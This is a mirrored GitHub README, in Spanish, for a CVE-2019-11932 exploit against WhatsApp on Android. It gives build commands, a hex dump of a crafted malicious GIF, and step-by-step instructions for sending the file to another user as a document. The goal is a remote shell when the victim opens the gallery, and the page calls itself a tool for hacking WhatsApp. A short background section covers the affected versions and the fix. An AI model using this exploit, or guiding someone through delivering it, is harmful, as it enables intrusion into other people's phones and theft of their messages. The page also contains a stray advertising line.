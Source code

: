 # CVE-2019-11932

Programa para hackear Whatsapp Mediante Gif ,asiendo un exploit con el puerto.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/fastmo](https://github.com/fastmo) |
| Url      | [https://github.com/fastmo/CVE-2019-11932](https://github.com/fastmo/CVE-2019-11932)                                               |
| Stars    | 7                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2019-11932

La dirección del sistema () y el gadget deben reemplazarse por la dirección real encontrada por una vulnerabilidad de divulgación de información.

Después de reemplazar la dirección del sistema () y el gadget. Ejecute el código para generar el archivo GIF dañado:

```
notroot@osboxes:~/Desktop/gif$ make
.....
.....
.....
notroot@osboxes:~/Desktop/gif$ ./exploit exploit.gif
buffer = 0x7ffc586cd8b0 size = 266
47 49 46 38 39 61 18 00 0A 00 F2 00 00 66 CC CC
FF FF FF 00 00 00 33 99 66 99 FF CC 00 00 00 00
00 00 00 00 00 2C 00 00 00 00 08 00 15 00 00 08
9C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 84 9C 09 B0
C5 07 00 00 00 74 DE E4 11 F3 06 0F 08 37 63 40
C4 C8 21 C3 45 0C 1B 38 5C C8 70 71 43 06 08 1A
34 68 D0 00 C1 07 C4 1C 34 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 54 12 7C C0 C5 07 00 00 00 EE FF FF 2C 00 00
00 00 1C 0F 00 00 00 00 2C 00 00 00 00 1C 0F 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 2C 00 00 00 00
18 00 0A 00 0F 00 01 00 00 3B
```
Luego copie el archivo exploit.gif y envíelo como Documento con WhatsApp a otro usuario de WhatsApp. Tenga en cuenta que no debe enviarse como un archivo multimedia, de lo contrario, WhatsApp intenta convertirlo en un MP4 antes de enviarlo. Una vez que el usuario recibe el archivo GIF malicous, no pasará nada hasta que el usuario abra la Galería de WhatsApp para enviar un archivo multimedia a su amigo.

#Intrucciones

>>>>>Vectores de ataque GIF de WhatsApp(Mini noticia y Instrucciones a lo Ultimo)

                                  -----Mini Noticia y iNSTRUCCIONES----
----------------------------------------------------------------------------------------------------------------------------------------
El pirateo de WhatsApp GIF se puede ejecutar de dos maneras

Etapa de privilegio local (de una aplicación de usuario a WhatsApp): se instala una aplicación maliciosa en el dispositivo Android.
La aplicación recopila direcciones de bibliotecas de cigotos y crea un archivo GIF malicioso que resulta en la ejecución de código en WhatsApp. 
Esto permite que la aplicación de malware robe archivos del sandbox de WhatsApp, incluida la base de datos de mensajes.
Ejecución remota de código: emparejamiento con una aplicación que tiene una vulnerabilidad de divulgación de información de memoria remota.
El atacante puede recopilar las direcciones de las bibliotecas zygote y crear un archivo GIF malicioso para enviarlo al usuario a través de WhatsApp 
(debe ser como un archivo adjunto, no como un imagen a través de Gallery Picker ya que WhatsApp intenta convertir archivos multimedia a MP4 y eso haría que su GIF malicioso sea inútil). 
Tan pronto como el usuario abra la vista Galería en WhatsApp, el archivo GIF activará un shell remoto en el contexto de WhatsApp.
Debe leer: 4 Hacks de Fitbit que nunca conociste antes
WhatsApp en el último Android es pirateable
Las versiones de Android 8.1 y 9.0 son explotables, mientras que las versiones anteriores no lo son. El investigador dice que el error doblemente libre aún podría activarse en versiones anteriores del sistema operativo, 
pero se produce un bloqueo antes de que se pueda ejecutar un código malicioso para ejecutar un RCE.
GIF malicioso que piratea WhatsApp
Conclusión:
Facebook reconoció el problema de seguridad y ha solucionado el problema en WhatsApp versión 2.19.244. Aunque Facebook trató de hacer que pareciera que no es una gran hazaña, mientras que en realidad es bastante desagradable. 
Como siempre, mantenga sus aplicaciones actualizadas y no instale aplicaciones innecesarias.


--------------------------------------------------------Pasos---------------------------------------------------------------------------

Simplemente compila el código en este repositorio. La dirección del sistema () y el gadget deben reemplazarse por la dirección real,encontrada por una vulnerabilidad de divulgación de información que debe descubrir por su cuenta utilizando,otras técnicas antes de que el GIF haga cualquier RCE por usted.Una vez que compila el código mencionado en el enlace anterior, copia el contenido en un archivo GIF y lo envía como Documento con WhatsApp a otro usuario de WhatsApp. Recuerde no enviarlo como un archivo multimedia, de lo contrario, WhatsApp intenta convertirlo en un MP4 antes de enviarlo. Una vez que el usuario recibe el archivo GIF malicioso, no pasará nada hasta que el usuario abra la Galería de WhatsApp para enviar un archivo multimedia a su amigo.



## Get the content

```
git clone https://github.com/fastmo/CVE-2019-11932
cd CVE-2019-11932
```

{% embed url="https://github.com/fastmo/CVE-2019-11932" %}

<figure><img src="https://avatars.githubusercontent.com/u/53575270?v=4" alt=""><figcaption><p>fastmo</p></figcaption></figure>
